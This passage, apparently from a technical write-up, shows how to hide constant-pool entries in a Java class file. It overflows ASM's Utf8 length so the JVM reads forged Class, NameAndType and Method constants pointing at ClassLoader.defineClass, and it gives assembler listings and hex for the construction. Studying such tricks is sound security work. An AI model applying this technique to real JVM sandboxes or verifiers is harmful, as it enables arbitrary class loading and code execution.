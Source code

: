 Now we have the bytes for our first hidden constant: a tag byte (`01`), then length field (`257 = 0101`), then the string data. We’ll use a Python script to construct the actual value of `evilstring`, so we can just write `'010101'.decode('hex') + 'Exploit/xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx'`.

### Hidden constants part 2

Recall that our code so far looks like this:

```
        ldc_w "s_fb"
        ldc_w "s_fd"
        ldc_w "s_ff"

        ldc_w "defineClass"
        ldc_w "(Ljava/lang/String;[BIILjava/security/ProtectionDomain;)Ljava/lang/Class;"
        ldc_w "<init>"
        ldc_w "()V"
        ldc_w "java/lang/ClassLoader"

        ldc_w "evilstring"


```

The `Utf8` for `"s_ff"` appears at index `00ff`, so `"defineClass"` appears at `0101`, `"(Ljava/lang/String;[BII..."` appears at `0103`, `"<init>"` at `0105`, `"()V"` at `0107`, `"java/lang/ClassLoader"` at `0109` and `"evilstring"` itself appears at `010B`. (Recall that it counts up by two each time because each string literal results in both a `Utf8` constant and a `String` constant.)

_However_, that’s all according to ASM’s view. ASM thinks that it’s writing out one giant `Utf8` constant for `evilstring` at index `010B`, but when it does, the string length overflows to 0, so the JVM continues parsing from inside `evilstring`, etc. Therefore the JVM sees a 0-length `Utf8` constant at index `010B`, and thus the first hidden constant we create (`[this_utf]`) actually appears at index `010C`.

With that out of the way, we can proceed to the next hidden constant, `[this_cls]` itself. This is just a tag byte (`07`) followed by the index of `[this_utf]` (`010C`). In fact, we can now fill in the rest of the hidden constants too. (The tag bytes for `Method` and `NameAndType` constants are `0A` and `0C` respectively.)

```
.const [this_utf] = Utf8 "Exploit"
010C: 01 0101 ... 

.const [this_cls] = Class [this_utf]
010D: 07 010C

.const [defineClass_nat] = NameAndType [defineClass_utf] [defineClass_desc_utf]
010E: 0C 0101 0103

.const [defineClass_method] = Method [this_cls] [defineClass_nat]
010F: 0A 010D 010E

.const [CL_init_nat] = NameAndType [init_utf] [init_desc_utf]
0110: 0C 0105 0107

.const [CL_init_method] = Method [super_cls] [CL_init_nat]
0111: 0A [super_cls] 0110


```
